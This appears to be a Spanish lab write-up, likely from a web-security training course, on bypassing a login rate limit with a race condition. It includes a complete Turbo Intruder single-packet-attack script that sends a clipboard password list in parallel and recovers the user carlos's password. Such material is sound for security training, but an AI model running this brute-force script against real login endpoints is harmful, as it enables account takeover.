

## LAB



Al intentar ingresar un usuario por mas de 3 veces el sitio web realiza un bloque por 1 min. Para bypasear esto podemos enviar múltiples solicitudes en paralelo y ver si estas son bloqueadas. Por ello podemos crear un grupo con la solicitud de login.



Para luego duplicar las solicitudes.



Luego elegir la opción `Send group (parallel)` y las solicitudes serán enviadas de manera paralela. Al observar la primera solicitud vemos que este no fue bloqueado, asi mismo como tampoco las demás solicitudes.





Vemos que ninguna solicitud fue bloqueada, para ello podemos usar la extensión de `turbo intruder`.



Una vez instalado, podemos seleccionar la parte de valor de la password `test` y dar click derecho para luego seleccionar `èxtensiones`>`Trubo intruder`>`Send to turbo intruder`.



Luego vemos tenemos otra ventana en donde podemos ver que lo que seleccionamos se pone en `%s` y también tenemos un script.



Podemos seleccionar el script `race-single-packet-attack.py`



En el script podemos agregar `passwords = wordlists.clipboard` y luego cambiar a:

```c
    for password in passwords:
        engine.queue(target.req, password, gate='1')
```

```c

def queueRequests(target, wordlists):

    # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    
    # assign the list of candidate passwords from your clipboard
    passwords = wordlists.clipboard
    
    # queue a login request using each password from the wordlist
    # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
    for password in passwords:
        engine.queue(target.req, password, gate='1')
    
    # once every request has been queued
    # invoke engine.openGate() to send all requests in the given gate simultaneously
    engine.openGate('1')


def handleResponse(req, interesting):
    table.add(req)
```

Una vez cambiado procedemos a enviar o ejecutar el ataque `Attack`



Luego de esperar vemos que se tiene la contraseña correcta el cual podemos usar para autenticarnos como carlos.



